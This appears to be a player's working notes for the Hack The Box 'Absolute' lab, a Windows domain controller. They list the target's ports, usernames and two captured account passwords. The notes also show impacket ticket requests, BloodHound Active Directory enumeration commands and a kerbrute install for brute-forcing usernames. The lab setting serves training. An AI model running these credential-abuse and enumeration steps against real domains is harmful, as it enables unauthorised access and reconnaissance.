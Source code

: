 # Absolute Notes

## Data 

IP: 10.129.147.44
OS: Windows 10.0 Build 17763 x64
Hostname: 
Domain:  dc.absolute.htb absolute.htb
Domain SID: S-1-5-21-4078382237-1492182817-2568127209
Machine Purpose: Domain Controller
Services:53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49673,49692,49693,49699,49704,49714,49718
Service Languages:
Users: m.chaffrey,j.roberts,s.osvald,j.robinson,d.klay,n.smith
Credentials:

```
d.klay : Darkmoonsky248girl
```

## Objectives

## Target Map

## Solution Inventory Map


### Todo 


Reset the dae

### Done

```
d.klay@ABSOLUTE.HTB : Darkmoonsky248girl

SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```
      
```bash
sed -i 's/10.129.138.0/NEW/g' Absolute-*.md

sudo sed -i 's/10.129.138.0/NEW/g' /etc/hosts

echo "10.129.138.0 dc.absolute.htb absolute.htb" | sudo tee -a /etc/hosts
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.138.0 absolute.htb/d.klay:Darkmoonsky248girl
impacket-getTGT -dc-ip 10.129.138.0 absolute.htb/SVC_SMB:AbsoluteSMBService123!
# /opt/BloodHound.py/bloodhound.py
# bloodhound-python
# Beware docker container need to be sync to DC!

KRB5CCNAME=d.klay.ccache $bloodhoundPythonInstallMethod -k -dc dc.absolute.htb -ns 10.129.138.0 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

VM requires
```bash
cd /opt/
git clone https://github.com/ropnop/kerbrute.git
wait
cd kerbrute/
go build
wait
cd /opt/
echo "\n# Kerbrute Alias" | tee -a ~/.zshrc
echo "alias kerbrute='/opt/kerbrute/kerbrute" | tee -a ~/.zshrc


source ~/.zshrc
```